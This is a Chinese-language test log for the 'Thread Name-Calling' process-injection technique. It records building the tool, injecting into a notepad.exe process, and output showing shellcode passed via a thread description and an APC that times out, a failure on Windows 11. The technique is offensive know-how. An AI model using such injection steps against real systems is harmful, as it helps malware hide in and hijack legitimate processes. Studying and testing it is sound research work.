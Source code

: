 # 技术38：Thread Name-Calling 测试文档

## 测试信息

- **测试日期**: 2025-01-09
- **测试环境**: Windows 11 Build 26100 (24H2)
- **测试结果**: ❌ 失败
- **失败原因**: Windows 11 系统限制 Special User APC

## 测试步骤

### 1. 测试我们的实现

#### 编译程序

```bash
cd techniques/38-thread-namecalling
./build.sh
```

**结果**: ✅ 编译成功

#### 执行注入

```bash
# 启动目标进程
notepad.exe &
sleep 2
PID=$(tasklist | grep -i "notepad.exe" | tail -1 | awk '{print $2}')

# 执行注入
./thread_namecalling.exe $PID
```

**输出**:
```
[*] Thread Name-Calling Injection
[*] Author: hasherezade (C implementation)

[+] Target PID: 132716
[+] Opened target process (PID 132716): 00000000000000E4
[+] PEB base address: 0000006516C24000
[+] Using PEB unused area: 0000006516C24340
[+] Found thread TID=127708

[*] Step 1: Passing shellcode via thread name...
[+] Setting thread description (75 bytes)...
[+] Thread description set successfully
[+] Queueing APC to call GetThreadDescription...
[+] Using NtQueueApcThreadEx2
[+] APC queued successfully
[-] Waiting for buffer pointer (attempt 1/10)...
[-] Waiting for buffer pointer (attempt 2/10)...
[-] Waiting for buffer pointer (attempt 3/10)...
[-] Waiting for buffer pointer (attempt 4/10)...
[-] Waiting for buffer pointer (attempt 5/10)...
[-] Waiting for buffer pointer (attempt 6/10)...
[-] Waiting for buffer pointer (attempt 7/10)...
[-] Waiting for buffer pointer (attempt 8/10)...
[-] Waiting for buffer pointer (attempt 9/10)...
[-] Waiting for buffer pointer (attempt 10/10)...
[x] Timeout waiting for buffer pointer
[x] Failed to pass shellcode via thread name
```